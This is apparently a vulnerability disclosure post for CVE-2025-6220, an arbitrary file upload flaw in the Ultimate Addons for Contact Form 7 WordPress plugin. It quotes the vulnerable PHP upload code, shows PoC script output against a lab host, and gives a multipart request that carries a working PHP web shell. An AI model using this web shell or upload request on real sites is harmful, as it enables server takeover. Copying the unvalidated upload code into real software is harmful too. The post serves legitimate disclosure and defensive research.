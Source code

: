 +++
title = 'Ultimate Addons for Contact Form 7 <= 3.5.12 - Authenticated (Administrator+) Arbitrary File Upload via save_options'
date = 2025-06-17T00:00:12+00:00
hideToc = true
+++
### CVE-2025-6220

The [Ultimate Addons for Contact Form 7](https://wordpress.org/plugins/ultimate-addons-for-contact-form-7/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-6220.py](https://github.com/d0n601/CVE-2025-6220/blob/master/CVE-2025-6220.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-6220.py https://lab1.hacker admin PASSWORD

Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
70e7b99966
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 61299sec preferred_lft 61299sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86240sec preferred_lft 14240sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `uacf7_options_save` functionality in `/wp-content/plugins/ultimate-addons-for-contact-form-7/admin/tf-options/classes/UACF7_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [894-920](https://plugins.trac.wordpress.org/browser/ultimate-addons-for-contact-form-7/trunk/admin/tf-options/classes/UACF7_Settings.php#L894-920) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Ultimate Addons -> Settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-6220/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](/posts/images/cve-2025-6220/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```
6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-6220/3.png)
